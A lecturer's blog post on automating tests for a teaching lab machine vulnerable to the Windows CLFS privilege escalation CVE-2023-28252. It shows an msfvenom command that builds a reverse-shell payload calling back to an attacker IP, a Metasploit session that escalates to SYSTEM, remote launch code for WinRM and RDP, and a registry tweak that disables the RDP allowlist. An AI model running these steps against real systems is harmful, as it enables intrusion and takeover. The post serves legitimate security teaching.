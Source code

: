 ```yaml
---
title: "Automating the Testing of CVE-2023-28252"
permalink: /blog/2024-05-10-automating-testing-cve-2023_28252
collection: blog
publishDate: 2024-05-10
sitemap: true
---
```


In the Lancaster MSc Cyber Security course, I teach our module on penetration testing. For our labs and assessments this involves developing a number of vulnerable virtual machines that students have access to in a restricted environment. To give confidence that the vulnerabilities can be exploited by students in the labs, lots of time has been devoted to develop tests for these vulnerable machines and the automation of these tests. During the testing of a lab machine involving [CVE-2023-28252](https://nvd.nist.gov/vuln/detail/CVE-2023-28252) which will target a Windows 2022 server, there were challenges getting the automated test to pass while manual testing was able to exploit the vulnerability successfully.

<!-- readmore -->

## Building the Payload

The payload was built with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) and deployed via an HTTP server.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">msfvenom</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--payload</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.216 LPORT=4444 </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--arch</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> x64 </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--platform</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> windows </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--format</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> exe </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">--out</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> reverse_tcp.exe<BR>No encoder specified, outputting raw payload<BR>Payload size: 510 bytes<BR>Final size of exe file: 7168 bytes<BR>Saved as: reverse_tcp.exe<BR><BR></SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">python3</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">-m</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> http.server 80<BR>Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...<BR>192.168.1.173 - - [10/May/2024 14:22:29] "GET / HTTP/1.1" 200 -<BR>192.168.1.173 - - [10/May/2024 14:22:29] code 404, message File not found<BR>192.168.1.173 - - [10/May/2024 14:22:29] "GET /favicon.ico HTTP/1.1" 404 -<BR>192.168.1.173 - - [10/May/2024 14:22:33] "GET /reverse_tcp.exe HTTP/1.1" 200 -</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Expected Outcome

The expected output would look like this:

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">msfconsole<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">Metasploit tip: Metasploit can be configured at startup, see msfconsole<BR>--help to learn more<BR><BR><BR></SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">         .                                         .<BR> .<BR><BR>      </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  </SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">.                       o<BR>       </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">'   dB'                     BBP<BR>    dB'dB'dB' dBBP     dBP     dBP BB<BR>   dB'dB'dB' dBP      dBP     dBP  BB<BR>  dB'dB'dB' dBBBBP   dBP     dBBBBBBB<BR><BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                                   </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBBBBBP  </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBBBb  dBP    dBBBBP dBP dBBBBBBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">          </SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">.                  </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">.                  </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dB' dBP    dB'.BP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                             </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">|       </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBP    </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBBBB' dBP    dB'.BP dBP    dBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                           </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">--o--    </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBP    </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBP    dBP    dB'.BP dBP    dBP<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                             </SPAN><SPAN STYLE="color:#61D6D6;background-color:#0C0C0C;">|     </SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">dBBBBP </SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">dBP    dBBBBP dBBBBP dBP    dBP<BR><BR></SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">                                                                    .<BR>                .<BR>        o</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">                  </SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">To boldly go where no<BR>                            shell has gone before<BR><BR><BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">       =[ </SPAN><SPAN STYLE="color:#C19C00;background-color:#0C0C0C;">metasploit v6.3.55-dev                          </SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">]<BR>+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]<BR>+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]<BR>+ -- --=[ 9 evasion                                       ]<BR><BR>Metasploit Documentation: https://docs.metasploit.com/<BR><BR>msf6 &gt; use exploit/multi/handler<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Using configured payload generic/shell_reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set PAYLOAD windows/x64/meterpreter/reverse_tcp<BR>PAYLOAD =&gt; windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LHOST 192.168.1.216<BR>LHOST =&gt; 192.168.1.216<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LPORT 4444<BR>LPORT =&gt; 4444<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; run<BR><BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:4444<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Sending stage (201798 bytes) to 192.168.1.173<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Meterpreter session 1 opened (192.168.1.216:4444 -&gt; 192.168.1.173:51892) at 2024-05-10 14:28:19 +0100<BR><BR>meterpreter &gt; background<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Backgrounding session 1...<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">multi/handler</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; use windows/local/cve_2023_28252_clfs_driver<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set SESSION 1<BR>SESSION =&gt; 1<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set PAYLOAD windows/x64/meterpreter/reverse_tcp<BR>PAYLOAD =&gt; windows/x64/meterpreter/reverse_tcp<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LHOST 192.168.1.216<BR>LHOST =&gt; 192.168.1.216<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; set LPORT 5555<BR>LPORT =&gt; 5555<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt; run verbose=true<BR><BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:5555<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Running automatic check ("set AutoCheck false" to disable)<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Launching msiexec to host the DLL...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Process 3728 launched.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Reflectively injecting the DLL into 3728...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit finished, wait for (hopefully privileged) payload execution to complete.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Sending stage (201798 bytes) to 192.168.1.173<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Meterpreter session 2 opened (192.168.1.216:5555 -&gt; 192.168.1.173:51893) at 2024-05-10 14:28:50 +0100<BR><BR>meterpreter &gt; getuid<BR>Server username: NT AUTHORITY\SYSTEM</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Actual Outcome

Instead, I received an output similar to the following, which indicated that the exploit failed.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Started reverse TCP handler on 192.168.1.216:5555<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Running automatic check ("set AutoCheck false" to disable)<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Launching netsh to host the DLL...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Process 4896 launched.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Reflectively injecting the DLL into 4896...<BR></SPAN><SPAN STYLE="color:#16C60C;background-color:#0C0C0C;">[+]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit finished, wait for (hopefully privileged) payload execution to complete.<BR></SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">[*]</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> Exploit completed, but no session was created.<BR>msf6 exploit(</SPAN><SPAN STYLE="color:#E74856;background-color:#0C0C0C;">windows/local/cve_2023_28252_clfs_driver</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">) &gt;</SPAN></DIV><!--EndFragment -->
</div>
</div>

## Testing Framework

In my framework for building, testing and deploying vulnerable machines, I use [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) via [pypsrp](https://github.com/jborean93/pypsrp) to remotely access and configure Windows machines. This allows me the ability to execute PowerShell commands on the Windows machines. So in this instance, it would let me launch the `reverse_tcp.exe` payload on the Windows machine to set up a reverse shell with Metasploit.

```python
USERNAME = "..."
PASSWORD = "..."
async with WinRMSession(ipaddr, username=USERNAME, password=PASSWORD) as sess:
    await sess.run(f'Start-Process -FilePath "C:\\Users\\{USERNAME}\\Documents\\reverse_tcp.exe"')
```

However, when doing so this consistently failed, even though I could successfully test the exploit when manually executing it.

To eliminate `Start-Process` as a potential cause of the issue, I looked for alternate ways to launch `reverse_tcp.exe`. One approach that I tried was to use verbs from Explorer to run the process. I was familiar with this approach as I had used them to [implement ejecting media in Bento](https://github.com/chef/bento/pull/1529/files).  [A Microsoft devblog by Ed Wilson](https://devblogs.microsoft.com/scripting/use-powershell-to-work-with-windows-explorer/) was useful in getting the `Open` verb to work. However, this still led to the same issue.

```python
async with WinRMSession(ipaddr, username=USERNAME, password=PASSWORD) as sess:
    await sess.run(f'(New-Object -com Shell.Application).Namespace("C:\\Users\\{USERNAME}\\Documents").ParseName("reverse_tcp.exe").InvokeVerb("Open")')
```

I wanted to check that WinRM wasn't the cause of the issue, so replaced the code to execute `reverse_tcp.exe` with the following and manually ran `reverse_tcp.exe` when the test paused. This worked, meaning that the cause of my issue was related to either connecting via WinRM or how process are launched via WinRM and how this interacts with the exploit.
```python
input()
```

Unfortunately, always having a manual input here is not acceptable, as this prevents the test suite from automatically checking this exploit path.

One of the other services that the Windows 2022 server runs is RDP. [StackOverflow was useful here](https://stackoverflow.com/a/59900048) as it indicated that applications can be run over RDP with an appropriate configuration. All that was needed was to disable checking the list of allowed applications. Not a sensible idea for a secure system, but not harmful in the context of developing a vulnerable machine for students to attack.
```powershell
# Disable allowlist for using RDP to run programs
# See: https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-publishing-wmiprovider-fdisabledallowlist
Set-ItemProperty `
    -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Terminal Server\TSAppAllowList" `
    -Name "fDisabledAllowList" `
    -Value 1
```

A final challenge is that RDP was not happy that it was being run remotely over an SSH terminal.

<div class="highlighter-rouge">
<div class="highlight">
<!--StartFragment --><DIV STYLE="white-space:pre;background-color:#0C0C0C;padding:4px;overflow-y:scroll;overflow-y:auto;"><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">┌──(</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">kali㉿kali</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">)-[</SPAN><SPAN STYLE="color:#F2F2F2;background-color:#0C0C0C;">~</SPAN><SPAN STYLE="color:#13A10E;background-color:#0C0C0C;">]<BR>└─</SPAN><SPAN STYLE="color:#3B78FF;background-color:#0C0C0C;">$</SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;"> </SPAN><SPAN STYLE="color:#3A96DD;background-color:#0C0C0C;">xfreerdp </SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">/u:User /p:Password /v:192.168.1.87 /app:</SPAN><SPAN STYLE="color:#C19C00;background-color:#0C0C0C;">'C:\\Users\\User\\Documents\\reverse_tcp.exe'<BR></SPAN><SPAN STYLE="color:#CCCCCC;background-color:#0C0C0C;">[14:47:13:654] [1692:1692] [ERROR][com.freerdp.client.x11] - failed to open display:<BR>[14:47:13:654] [1692:1692] [ERROR][com.freerdp.client.x11] - Please check that the $DISPLAY environment variable is properly set.</SPAN></DIV><!--EndFragment -->
</div>
</div>

So instead of running `xfreerdp` via the terminal directly, the code first [creates a virtual framebuffer with xvfb-run](https://www.chrisrcook.com/2022/03/27/headless-rdp-for-fun-and-profit/). This allows the `reverse_tcp.exe` to be executed and in such a way that allows the exploit to be successful.

```python
rdp_command = f"xvfb-run -a xfreerdp /u:{USERNAME} /p:{PASSWORD} /v:{ipaddr} /app:'C:\\Users\\{USERNAME}\\Documents\\reverse_tcp.exe'"
rdp_proc = await conn.create_process(rdp_command, stderr=asyncssh.STDOUT, encoding="utf-8")
```

## Conclusions

It is still unclear to me why using a WinRM-based approach to launch `reverse_tcp.exe` did not work, especially as in other test cases for different vulnerabilities it has worked successfully. It would be interesting to investigate exactly why launching via WinRM prevented the exploit from being successful. However, the RDP approach does work and tests a slightly more realistic approach, as the students would likely use RDP to launch `reverse_tcp.exe` via a graphical interface.

Please note that this [vulnerability was patched](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252) on the 11th of April 2023 with Windows Server 2022 10.0.20348.1668, such systems still running a vulnerable version should be updated immediately.
